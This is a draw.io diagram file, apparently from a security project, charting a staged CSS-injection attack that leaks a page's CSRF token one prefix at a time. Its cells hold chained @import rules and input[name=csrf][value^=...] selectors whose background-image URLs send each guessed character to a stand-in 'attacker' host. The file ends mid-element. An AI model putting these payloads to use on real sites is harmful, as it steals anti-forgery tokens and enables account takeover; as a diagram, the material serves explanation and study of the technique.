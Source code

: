 <mxfile version="20.8.10" type="device"><diagram name="Page-1" id="KKpE-ekW6XmVbUUAA0-P"><mxGraphModel dx="3553" dy="1711" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="827" pageHeight="1169" math="0" shadow="0"><root><mxCell id="0"/><mxCell id="1" parent="0"/><mxCell id="LVywP6T12XHg40puiPan-24" value="&lt;b&gt;next0&lt;/b&gt;" style="swimlane;fontStyle=0;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;whiteSpace=wrap;html=1;" vertex="1" parent="1"><mxGeometry x="-30" y="280" width="230" height="90" as="geometry"/></mxCell><mxCell id="LVywP6T12XHg40puiPan-25" value="@import(https://attacker/selectors?id=1)" style="text;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" vertex="1" parent="LVywP6T12XHg40puiPan-24"><mxGeometry y="30" width="230" height="30" as="geometry"/></mxCell><mxCell id="LVywP6T12XHg40puiPan-26" value="@import(https://attacker/next?id=1)" style="text;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" vertex="1" parent="LVywP6T12XHg40puiPan-24"><mxGeometry y="60" width="230" height="30" as="geometry"/></mxCell><mxCell id="LVywP6T12XHg40puiPan-36" value="&lt;b&gt;next0&lt;/b&gt;&amp;amp;rdm=0.819..." style="swimlane;fontStyle=0;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;whiteSpace=wrap;html=1;" vertex="1" parent="1"><mxGeometry x="-30" y="410" width="230" height="60" as="geometry"/></mxCell><mxCell id="LVywP6T12XHg40puiPan-38" value="@import(https://attacker/next?id=1)" style="text;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" vertex="1" parent="LVywP6T12XHg40puiPan-36"><mxGeometry y="30" width="230" height="30" as="geometry"/></mxCell><mxCell id="LVywP6T12XHg40puiPan-39" value="&lt;b&gt;next0&lt;/b&gt;&amp;amp;rdm=0.639..." style="swimlane;fontStyle=0;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;whiteSpace=wrap;html=1;" vertex="1" parent="1"><mxGeometry x="-30" y="505" width="230" height="60" as="geometry"/></mxCell><mxCell id="LVywP6T12XHg40puiPan-41" value="@import(https://attacker/next?id=1)" style="text;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" vertex="1" parent="LVywP6T12XHg40puiPan-39"><mxGeometry y="30" width="230" height="30" as="geometry"/></mxCell><mxCell id="LVywP6T12XHg40puiPan-44" value="&lt;font style=&quot;font-size: 23px;&quot;&gt;&lt;b&gt;...&lt;/b&gt;&lt;/font&gt;" style="text;html=1;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;fontSize=15;" vertex="1" parent="1"><mxGeometry x="55" y="570" width="60" height="30" as="geometry"/></mxCell><mxCell id="LVywP6T12XHg40puiPan-49" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;fontSize=15;" edge="1" parent="1" source="LVywP6T12XHg40puiPan-26" target="LVywP6T12XHg40puiPan-36"><mxGeometry relative="1" as="geometry"><Array as="points"><mxPoint x="260" y="355"/><mxPoint x="260" y="390"/><mxPoint x="85" y="390"/></Array></mxGeometry></mxCell><mxCell id="LVywP6T12XHg40puiPan-51" value="stage &amp;lt;&amp;gt; id" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];fontSize=15;" vertex="1" connectable="0" parent="LVywP6T12XHg40puiPan-49"><mxGeometry x="0.126" relative="1" as="geometry"><mxPoint as="offset"/></mxGeometry></mxCell><mxCell id="LVywP6T12XHg40puiPan-52" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;fontSize=15;" edge="1" parent="1"><mxGeometry relative="1" as="geometry"><mxPoint x="200" y="450" as="sourcePoint"/><mxPoint x="85" y="505" as="targetPoint"/><Array as="points"><mxPoint x="260" y="450"/><mxPoint x="260" y="485"/><mxPoint x="85" y="485"/></Array></mxGeometry></mxCell><mxCell id="LVywP6T12XHg40puiPan-53" value="stage &amp;lt;&amp;gt; id" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];fontSize=15;" vertex="1" connectable="0" parent="LVywP6T12XHg40puiPan-52"><mxGeometry x="0.126" relative="1" as="geometry"><mxPoint as="offset"/></mxGeometry></mxCell><mxCell id="LVywP6T12XHg40puiPan-54" value="&lt;b&gt;selectors1&lt;/b&gt;" style="swimlane;fontStyle=0;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;whiteSpace=wrap;html=1;" vertex="1" parent="1"><mxGeometry x="427" y="730" width="400" height="220" as="geometry"/></mxCell><mxCell id="LVywP6T12XHg40puiPan-56" value="input[name=csrf][value^=a] ~ * { &lt;br&gt;&lt;span style=&quot;white-space: pre;&quot;&gt;&#9;&lt;/span&gt;background-image:url(https://attacker/valid?seq=ha); &lt;br&gt;}" style="text;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" vertex="1" parent="LVywP6T12XHg40puiPan-54"><mxGeometry y="30" width="400" height="50" as="geometry"/></mxCell><mxCell id="LVywP6T12XHg40puiPan-57" value="..." style="text;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;fontSize=15;" vertex="1" parent="LVywP6T12XHg40puiPan-54"><mxGeometry y="80" width="400" height="30" as="geometry"/></mxCell><mxCell id="LVywP6T12XHg40puiPan-58" value="..." style="text;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;fontSize=15;" vertex="1" parent="LVywP6T12XHg40puiPan-54"><mxGeometry y="110" width="400" height="30" as="geometry"/></mxCell><mxCell id="LVywP6T12XHg40puiPan-59" value="..." style="text;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;fontSize=15;" vertex="1" parent="LVywP6T12XHg40puiPan-54"><mxGeometry y="140" width="400" height="30" as="geometry"/></mxCell><mxCell id="LVywP6T12XHg40puiPan-60" value="input[name=csrf][value^=hZ] ~ * { &lt;br&gt;&lt;span style=&quot;&quot;&gt;&#9;&lt;/span&gt;&lt;span style=&quot;white-space: pre;&quot;&gt;&#9;&lt;/span&gt;background-image:url(https://attacker/valid?seq=hZ); &lt;br&gt;}" style="text;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" vertex="1" parent="LVywP6T12XHg40puiPan-54"><mxGeometry y="170" width="400" height="50" as="geometry"/></mxCell><mxCell id="LVywP6T12XHg40puiPan-61" value="&lt;b&gt;next1&lt;/b&gt;" style="swimlane;fontStyle=0;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;whiteSpace=wrap;html=1;" vertex="1" parent="1"><mxGeometry x="-30" y="730" width="230" height="90" as="geometry"/></mxCell><mxCell id="LVywP6T12XHg40puiPan-62" value="@import(https://attacker/selectors?id=2)" style="text;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" vertex="1" parent="LVywP6T12XHg40puiPan-61"><mxGeometry y="30" width="230" height="30" as="geometry"/></mxCell><mxCell id="LVywP6T12XHg40puiPan-63" value="@import(https://attacker/next?id=2)" style="text;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" vertex="1" parent="LVywP6T12XHg40puiPan-61"><mxGeometry y="60" width="230" height="30" as="geometry"/></mxCell><mxCell id="LVywP6T12XHg40puiPan-64" value="&lt;b&gt;next1&lt;/b&gt;&amp;amp;rdm=0.819..." style="swimlane;fontStyle=0;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;whiteSpace=wrap;html=1;" vertex="1" parent="1"><mxGeometry x="-30" y="860" width="230" height="60" as="geometry"/></mxCell><mxCell id="LVywP6T12XHg40puiPan-66" value="@import(https://attacker/next?id=2)" style="text;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" vertex="1" parent="LVywP6T12XHg40puiPan-64"><mxGeometry y="30" width="230" height="30" as="geometry"/></mxCell><mxCell id="LVywP6T12XHg40puiPan-67" value="&lt;b&gt;next1&lt;/b&gt;&amp;amp;rdm=0.639..." style="swimlane;fontStyle=0;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;whiteSpace=wrap;html=1;" vertex="1" parent="1"><mxGeometry x="-30" y="955" width="230" height="60" as="geometry"/></mxCell><mxCell id="LVywP6T12XHg40puiPan-69" value="@import(https://attacker/next?id=2)" style="text;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" vertex="1" parent="LVywP6T12XHg40puiPan-67"><mxGeometry y="30" width="230" height="30" as="geometry"/></mxCell><mxCell id="LVywP6T12XHg40puiPan-70" value="&lt;font style=&quot;font-size: 23px;&quot;&gt;&lt;b&gt;...&lt;/b&gt;&lt;/font&gt;" style="text;html=1;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;whiteSpace=wrap;rounded=0;fontSize=15;" vertex="1" parent="1"><mxGeometry x="55" y="1020" width="60" height="30" as="geometry"/></mxCell><mxCell id="LVywP6T12XHg40puiPan-71" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;fontSize=15;" edge="1" parent="1" source="LVywP6T12XHg40puiPan-63" target="LVywP6T12XHg40puiPan-64"><mxGeometry relative="1" as="geometry"><Array as="points"><mxPoint x="260" y="805"/><mxPoint x="260" y="840"/><mxPoint x="85" y="840"/></Array></mxGeometry></mxCell><mxCell id="LVywP6T12XHg40puiPan-72" value="stage &amp;lt;&amp;gt; id" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];fontSize=15;" vertex="1" connectable="0" parent="LVywP6T12XHg40puiPan-71"><mxGeometry x="0.126" relative="1" as="geometry"><mxPoint as="offset"/></mxGeometry></mxCell><mxCell id="LVywP6T12XHg40puiPan-73" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;fontSize=15;" edge="1" parent="1"><mxGeometry relative="1" as="geometry"><mxPoint x="200.0" y="900" as="sourcePoint"/><mxPoint x="85.0" y="955" as="targetPoint"/><Array as="points"><mxPoint x="260" y="900"/><mxPoint x="260" y="935"/><mxPoint x="85" y="935"/></Array></mxGeometry></mxCell><mxCell id="LVywP6T12XHg40puiPan-74" value="stage &amp;lt;&amp;gt; id" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];fontSize=15;" vertex="1" connectable="0" parent="LVywP6T12XHg40puiPan-73"><mxGeometry x="0.126" relative="1" as="geometry"><mxPoint as="offset"/></mxGeometry></mxCell><mxCell id="LVywP6T12XHg40puiPan-92" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;fontSize=23;" edge="1" parent="1" source="LVywP6T12XHg40puiPan-26" target="LVywP6T12XHg40puiPan-61"><mxGeometry relative="1" as="geometry"><Array as="points"><mxPoint x="370" y="355"/><mxPoint x="370" y="680"/><mxPoint x="85" y="680"/></Array></mxGeometry></mxCell><mxCell id="LVywP6T12XHg40puiPan-95" value="&lt;font style=&quot;font-size: 15px;&quot;&gt;stage == id&lt;/font&gt;" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];fontSize=23;" vertex="1" connectable="0" parent="LVywP6T12XHg40puiPan-92"><mxGeometry x="-0.728" y="1" relative="1" as="geometry"><mxPoint as="offset"/></mxGeometry></mxCell><mxCell id="LVywP6T12XHg40puiPan-93" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;fontSize=23;" edge="1" parent="1" source="LVywP6T12XHg40puiPan-38"><mxGeometry relative="1" as="geometry"><mxPoint x="85" y="730" as="targetPoint"/><Array as="points"><mxPoint x="370" y="450"/><mxPoint x="370" y="680"/><mxPoint x="85" y="680"/></Array></mxGeometry></mxCell><mxCell id="LVywP6T12XHg40puiPan-96" value="stage == id" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];fontSize=15;" vertex="1" connectable="0" parent="LVywP6T12XHg40puiPan-93"><mxGeometry x="-0.681" y="2" relative="1" as="geometry"><mxPoint as="offset"/></mxGeometry></mxCell><mxCell id="LVywP6T12XHg40puiPan-97" value="&lt;b&gt;selectors1&lt;/b&gt;" style="swimlane;fontStyle=0;childLayout=stackLayout;horizontal=1;startSize=30;horizontalStack=0;resizeParent=1;resizeParentMax=0;resizeLast=0;collapsible=1;marginBottom=0;whiteSpace=wrap;html=1;" vertex="1" parent="1"><mxGeometry x="440" y="280" width="400" height="220" as="geometry"/></mxCell><mxCell id="LVywP6T12XHg40puiPan-99" value="input[name=csrf][value^=a] ~ * { &lt;br&gt;&lt;span style=&quot;&quot;&gt;&#9;&lt;/span&gt;&lt;span style=&quot;white-space: pre;&quot;&gt;&#9;&lt;/span&gt;background-image:url(https://attacker/valid?seq=a); &lt;br&gt;}" style="text;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" vertex="1" parent="LVywP6T12XHg40puiPan-97"><mxGeometry y="30" width="400" height="50" as="geometry"/></mxCell><mxCell id="LVywP6T12XHg40puiPan-100" value="..." style="text;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;fontSize=15;" vertex="1" parent="LVywP6T12XHg40puiPan-97"><mxGeometry y="80" width="400" height="30" as="geometry"/></mxCell><mxCell id="LVywP6T12XHg40puiPan-101" value="..." style="text;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;fontSize=15;" vertex="1" parent="LVywP6T12XHg40puiPan-97"><mxGeometry y="110" width="400" height="30" as="geometry"/></mxCell><mxCell id="LVywP6T12XHg40puiPan-102" value="..." style="text;strokeColor=none;fillColor=none;align=center;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;fontSize=15;" vertex="1" parent="LVywP6T12XHg40puiPan-97"><mxGeometry y="140" width="400" height="30" as="geometry"/></mxCell><mxCell id="LVywP6T12XHg40puiPan-103" value="input[name=csrf][value^=Z] ~ * { &lt;br&gt;&lt;span style=&quot;&quot;&gt;&#9;&lt;/span&gt;&lt;span style=&quot;white-space: pre;&quot;&gt;&#9;&lt;/span&gt;background-image:url(https://attacker/valid?seq=/Z); &lt;br&gt;}" style="text;strokeColor=none;fillColor=none;align=left;verticalAlign=middle;spacingLeft=4;spacingRight=4;overflow=hidden;points=[[0,0.5],[1,0.5]];portConstraint=eastwest;rotatable=0;whiteSpace=wrap;html=1;" vertex="1" parent="LVywP6T12XHg40puiPan-97"><mxGeometry y="170" width="400" height="50" as="geometry"/></mxCell><mxCell id="LVywP6T12XHg40puiPan-104" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;fontSize=15;" edge="1" parent="1" source="LVywP6T12XHg40puiPan-25" target="LVywP6T12XHg40puiPan-97"><mxGeometry relative="1" as="geometry"/></mxCell><mxCell id="LVywP6T12XHg40puiPan-105" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;fontSize=15;" edge="1" parent="1" source="LVywP6T12XHg40puiPan-62" target="LVywP6T12XHg40puiPan-54"><mxGeometry relative="1" as="geometry"/></mxCell><mxCell id="LVywP6T12XHg40puiPan-106" value="secret = seq&lt;br&gt;stage ++" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontSize=15;" vertex="1" parent="1"><mxGeometry x="1020" y="375" width="120" height="60" as="geometry"/></mxCell><mxCell id="LVywP6T12XHg40puiPan-107" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;fontSize=15;" edge="1" parent="1" source="LVywP6T12XHg40puiPan-101" target="LVywP6T12XHg40puiPan-106"><mxGeometry relative="1" as="geometry"/></mxCell><mxCell id="LVywP6T12XHg40puiPan-108" value="secret = seq&lt;br&gt;stage ++" style="shape=process;whiteSpace=wrap;html=1;backgroundOutline=1;fontSize=15;" vertex="1" parent="1"><mxGeometry x="1007" y="820" width="120" height="60" as="geometry"/></mxCell><mxCell id="LVywP6T12XHg40puiPan-109" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;fontSize=15;" edge="1" parent="1" target="LVywP6T12XHg40puiPan-108"><mxGeometry relative="1" as="geometry"><mxPoint x="827.0" y="850" as="sourcePoint"/></mxGeometry></mxCell><mxCell id="LVywP6T12XHg40puiPan-112" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0.5;entryY=0;entryDx=0;entryDy=0;fontSize=15;" edge="1" parent="1" source="LVywP6T12XHg40puiPan-111" target="LVywP6T12XHg40puiPan-24"><mxGeometry relative="1" as="geometry"/></mxCell><mxCell id="LVywP6T12XHg40puiPan-111" value="init" 